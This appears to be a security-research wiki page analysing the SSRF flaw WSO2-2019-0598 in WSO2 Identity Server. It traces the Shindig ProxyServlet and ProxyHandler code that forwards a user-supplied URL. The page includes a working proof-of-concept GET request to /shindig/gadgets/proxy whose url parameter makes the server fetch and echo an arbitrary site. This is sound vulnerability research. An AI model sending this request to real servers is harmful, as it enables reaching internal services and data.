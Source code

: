# WSO2 proxy SSRF vulnerability WSO2-2019-0598

## Vulnerability Description

Abusing the UI widget loading feature of shindig web applications can exploit this vulnerability. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 Identity Server  5.2.0 , 5.3.0 , 5.4.0 , 5.4.1 , 5.5.0 , 5.6.0 , 5.7.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WSO2 IS as Key Manager  5.3.0 , 5.5.0 , 5.6.0 , 5.7.0</span>

## Environment construction

[https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip](https://github.com/wso2/product-is/releases/download/v5.6.0-rc3/wso2is-5.6.0-rc3.zip)

## Vulnerability reappears

According to the official description, the main reason for the vulnerability is the loading function of the UI widget of the shindig web application, [WSO2-2019-0598](https://docs.wso2.com/display/Security/Security+Advisory+WSO2-2019-0598)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949168107-52c50aa8-724d-44fe-b6b7-88c5ee421b1a.png)

Download the source code to start the environment, debug in IDEA,

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949296183-8fcf7648-396c-4cf0-97e6-2d8bd7703549.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949352127-e4a58aa5-02ab-47b6-a39f-4c4674078557.png)

According to the official description, search globally for shindig related code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949484773-86c19b18-058f-4b04-b3af-f2c770e042fe.png)

Set a breakpoint and take a look at the code calling process when accessing the `/shindig/gadgets/js` path

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949747820-46ca8de3-5455-4814-9d7d-1f43470e9842.png)

You can see that when accessing this path, the doGet method under the corresponding Servlet is called to process `(org.apache.shindig.gadgets.servlet.JsServlet.doGet(JsServlet.java:86)`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650949997574-c1633833-c71b-4d0d-b6f7-b2408c614032.png)

We can find the corresponding call method in the file `conf/shindig/web.xml`
![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650952090941-f1e39caa-c6ee-4ad2-9ee9-51f1d52f88f0.png)

Seeing this we noticed that `org.apache.shindig.gadgets.servlet.MakeRequestServlet` seems to be very similar to the vulnerability points in Jira Unauthorized SSRF vulnerability (CVE-2019-8451)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650952325298-e424a1e2-e3e0-4a14-8424-10cfb0d63365.png)

However, during the debugging of the breakpoint, it was found that this point failed to use.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650952414457-a9d6704f-ac22-48fb-ba74-d1c96e2c18b0.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650952488384-050175c2-7724-4dc3-a07d-ab5b893a2867.png)

I had to go and check out the other Servlets, and finally we noticed ProxyServlet

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650952714596-71a7d9a1-931d-4592-a594-a0a113410d1c.png)

Send a request packet, breakpoint to see the processing process

```java
GET /shindig/gadgets/proxy?container=default&url=https://www.baidu.com HTTP/1.1
Host: localhost:9443
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

Receive parameters through the doGet method under `org.apache.shindig.gadgets.servlet.ProxyServlet` and pass in `processRequest`

middle

```java
private void processRequest(HttpServletRequest request, HttpServletResponse servletResponse) throws IOException {
        if (request.getHeader("If-Modified-Since") != null) {
            servletResponse.setStatus(304);
        } else {
            Uri reqUri = (new UriBuilder(request)).toUri();

            HttpResponse response;
            try {
                ProxyUri proxyUri = this.proxyUriManager.process(reqUri);
                SecurityToken st = AuthInfoUtil.getSecurityTokenFromRequest(request);
                proxyUri.setSecurityToken(st);
                proxyUri.setUserAgent(request.getHeader("User-Agent"));
                if (proxyUri.getGadget() == null && st != null && !st.isAnonymous()) {
                    proxyUri.setGadget(st.getAppUrl());
                }

                AuthType authType = proxyUri.getAuthType();
                if (AuthType.OAUTH.equals(authType)) {
                    proxyUri.setOAuthArguments(new OAuthArguments(AuthType.OAUTH, request));
                } else if (AuthType.OAUTH2.equals(authType)) {
                    proxyUri.setOAuth2Arguments(new OAuth2Arguments(request));
                }

                String host = request.getHeader("Host");
                if (!this.lockedDomainService.isSafeForOpenProxy(host)) {
                    Uri resourceUri = proxyUri.getResource();
                    String msg = "Embed request for url " + (resourceUri != null ? resourceUri.toString() : "n/a") + " made to wrong domain " + host;
                    if (LOG.isLoggable(Level.INFO)) {
                        LOG.logp(Level.INFO, classname, "processRequest", "embededImgWrongDomain", new Object[]{resourceUri != null ? resourceUri.toString() : "n/a", host});
                    }

                    throw new GadgetException(Code.INVALID_PARAMETER, msg, 400);
                }

                if ("POST".equalsIgnoreCase(request.getMethod())) {
                    StringBuffer buffer = this.getPOSTContent(request);
                    response = this.proxyHandler.fetch(proxyUri, buffer.toString());
                } else {
                    response = this.proxyHandler.fetch(proxyUri);
                }
            } catch (GadgetException var11) {
                response = ServletUtil.errorResponse(new GadgetException(var11.getCode(), var11.getMessage(), 400));
            }

            ServletUtil.copyToServletResponseAndOverrideCacheHeaders(response, servletResponse);
        }
    }
```

Follow down to `org.apache.shindig.gadgets.servlet.ProxyHandler`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650956411691-435ce4a4-0fd4-4c36-ae68-f225e5eefb31.png)



`org.apache.shindig.gadgets.servlet.ProxyHandler.fatch`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650957359634-2d8e534a-14d0-409c-8b7d-61fdbdc5695b.png)



Then go down to see the `buildHttpRequest` method under org.apache.shindig.gadgets.servlet.ProxyHandler creates an Http request, and the target is the URL parameter we just passed in.

```java
 private HttpRequest buildHttpRequest(ProxyUri uriCtx, Uri tgt, @Nullable String postBody) throws GadgetException, IOException {
        ServletUtil.validateUrl(tgt);
        HttpRequest req = uriCtx.makeHttpRequest(tgt);
        req.setRewriteMimeType(uriCtx.getRewriteMimeType());
        if (postBody != null) {
            req.setMethod("POST");
            req.setPostBody(new ByteArrayInputStream(postBody.getBytes()));
        }

        if (req.getHeader("User-Agent") == null) {
            String userAgent = uriCtx.getUserAgent();
            if (userAgent != null) {
                req.setHeader("User-Agent", userAgent);
            }
        }

        return req;
    }
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650956748587-08627c03-ca22-489e-b174-eb1c476f9072.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650956819778-3300aef4-dc84-425e-bcdf-6f5dd04bfa3e.png)

Finally echoing to the page, resulting in an echoing SSRF

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650957201523-47aa0d2c-7cc7-4c10-b14c-fd48049681d3.png)![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1650957230578-815a5156-d3b5-419b-a2e7-c2ac97a2c562.png)